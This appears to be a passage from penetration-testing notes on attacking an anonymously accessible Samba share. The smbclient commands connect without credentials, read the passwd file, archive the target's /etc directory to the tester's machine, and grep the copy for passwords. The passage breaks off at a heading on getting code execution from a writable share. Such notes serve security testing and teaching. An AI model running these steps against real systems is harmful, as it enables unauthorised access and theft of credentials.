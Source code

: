 ```
Add the following under global:
   client min protocol = CORE
   client max protocol = SMB3
```

```
smbclient \\\\192.168.13.29\\tmp -N
```

![](<../../.gitbook/assets/image (293) (1) (1).png>)

#### From here, we can simply use smbclient to change into the rootfs directory, and begin post exploitation, downloading/uploading files, etc. using the smbclient “get”

```
root@tester:~# cat passwd |less
```

#### Additionally, another useful command for data exfiltration when conducting post-exploitation tasks using smbclient is the “tar” command. With the tar command, we can create an archive of all files within a current directory, for local perusal later.

```
smb: \rootfs\tmp\rootfs\> cd etc
smb: \rootfs\tmp\rootfs\etc\> tar c ../tmp/all_files.tar *
```

#### The above will create a tar archive of the /etc/ directory on the target system to our local systems’ /tmp directory.

#### We can then extract, and start enumerating files for sensitive content, passwords, etc.

```
root@tester# tar xf /tmp/all_files.tar
root@tester# cd /tmp/rootfs/tmp/rootfs/etc/
root@tester# grep -r "password" * 2>&1 /dev/null
```

## From Writable Share to RCE
